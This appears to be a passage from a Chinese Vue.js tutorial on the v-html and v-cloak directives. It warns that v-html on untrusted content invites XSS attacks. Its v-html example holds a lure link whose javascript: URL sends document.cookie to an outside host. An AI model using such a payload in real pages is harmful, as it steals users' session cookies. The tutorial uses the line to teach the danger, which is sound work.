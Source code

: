 ```html
</script>
```

**v-html指令：**(使用的很少)

1.作用：向指定节点中渲染包含html结构的内容。

2.与插值语法的区别：

*   v-html会替换掉节点中所有的内容，{{xx}}则不会。
*   v-html可以识别html结构。

3.严重注意：v-html有安全性问题！！！！

*   在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
*   一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```js
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

**v-cloak指令（没有值）：**

*   本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
*   使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<style>
    [v-cloak]{
        display:none;
    }
</style>
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```